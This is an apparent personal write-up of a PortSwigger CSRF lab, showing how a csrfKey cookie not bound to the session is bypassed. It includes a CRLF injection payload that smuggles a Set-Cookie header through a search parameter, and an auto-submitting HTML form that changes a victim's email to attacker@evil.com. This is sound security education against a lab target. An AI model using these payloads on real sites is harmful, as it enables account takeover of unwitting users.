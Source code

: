 # CSRF where token is tied to non-session cookie | Dec 15, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie), you'll learn: CSRF where token is tied to non-session cookie! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

This lab's email change functionality is vulnerable to CSRF. It uses tokens to try to prevent CSRF attacks, but they aren't fully integrated into the site's session handling system.

To solve the lab, use your exploit server to host an HTML page that uses a [CSRF attack](https://portswigger.net/web-security/csrf) to change the viewer's email address.

You have two accounts on the application that you can use to help design your attack. The credentials are as follows:

- `wiener:peter`
- `carlos:montoya`

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215012927.png)

**Login as user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013305.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013311.png)

**In the previous labs, we found that the email change functionality is vulnerable to CSRF, and it uses tokens to try to prevent CSRF attacks:**
```html
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
    <label>Email</label>
    <input required type="email" name="email" value="">
    <input required type=hidden name=csrf value=hMX6roXxx4LPkQUpRCr5tJFKc5s6NzJM>
    <button class='button' type='submit'> Update email </button>
</form>
```

**Let's try to update our email address, and intercept the request via Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013457.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013515.png)

**As you can see, this time it also include a cookie called `csrfKey`, and a parameter `csrf`!**

**Hmm... What if I change the value of `csrfKey`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013824.png)

It outputs `Invalid CSRF token`!

**And what if I change the value of `session`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215013933.png)

**It redirects me to `/login`, which is log out the current session, and also set a new `session` cookie!**

**Now, let's login as user `carlos`, and try to swap `csrfKey` cookie and `csrf` parameter from user `wiener`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014255.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014302.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014310.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215014327.png)

**Hmm? The `csrfKey` cookie and `csrf` parameter is exactly the same as user `wiener`!**

**The only difference is the `session` cookie!** 

This proves that the back-end's CSRF protection doesn't integrate into the session system.

Now, we still couldn't change victim's email address, as **the `csrfKey` is a cookie**! And we couldn't simply add our own cookie value.

**After poking around, I found that the home page's search box is interesting:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215015509.png)

**Let's search something, and intercept the request in Burp Suite:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215015526.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215015606.png)

**When we click the `Search` button, it'll send a GET request to `/` with the parameter `search`.**

**Also, when we sent the request, it'll set a new cookie value: `LastSearchTerm=<seach_parameter_value>`!**

That being said, we can set any cookie value as we wanted.

**But how can we abuse this?**

**In [Mozilla web docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie), it said:**

> To send multiple cookies, multiple **`Set-Cookie`** headers should be sent in the same response.

Hmm... That means we can set multiple cookies?

**After I google this a little bit, I found this [Medium blog](https://medium.com/@protostar0/crlf-injection-allow-cookie-injection-in-root-domain-xss-812cd807ba5b):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215020317.png)

**Wait. CRLF injection allow cookie injection?**

**And after googled about CRLF injection, I found this post on [GeeksforGeeks](https://www.geeksforgeeks.org/crlf-injection-attack/):**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215020426.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215020439.png)

**So if the web application is vulnerable, we can injection `%0d%0a` (`\r\n`) in the request??**

Let's try that!

**Payload:**
```
/?search=anything%0d%0aSet-Cookie:csrfKey=CRLF%3b%20SameSite=None
```

> Note: The `%3b%20` means `; `, and we need `SameSite` is set to `None`.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022524.png)

**Nice! We've successfully set a new cookie!**

**Now, let's craft a HTTP form that performs CSRF attack on changing email!**
```html
<html>
	<head>
		<title>CSRF-5</title>
	</head>
	<body>
		<form action="https://0a38003c0466e7dbc41f2f84009200ac.web-security-academy.net/my-account/change-email" method="POST">
		    <input type="hidden" name="email" value="attacker@evil.com">
		    <input type="hidden" name="csrf" value="hMX6roXxx4LPkQUpRCr5tJFKc5s6NzJM">
		</form>
		<img src="https://0a38003c0466e7dbc41f2f84009200ac.web-security-academy.net/?search=anything%0d%0aSet-Cookie:csrfKey=cYKdlnK4AuLbcbZBymW44Vizt6UkQpRK%3b%20SameSite=None" onerror="document.forms[0].submit()">
	</body>
</html>
```

**Let's break it down:**

- We've added a CSRF token value from user `wiener`
- We've added a new `img` tag, and it's forcing a user to set a new `csrfKey` cookie, which is user `wiener` value. Also, when the image is failed to load, submit the form automatically

**Armed with above information, we can try to use the `exploit server` to change victim's email address!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215021528.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022639.png)

**After clicked `Store` button, click `Deliver exploit to victim`:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022715.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/CSRF/CSRF-5/images/Pasted%20image%2020221215022724.png)

We did it!

# What we've learned:

1. CSRF where token is tied to non-session cookie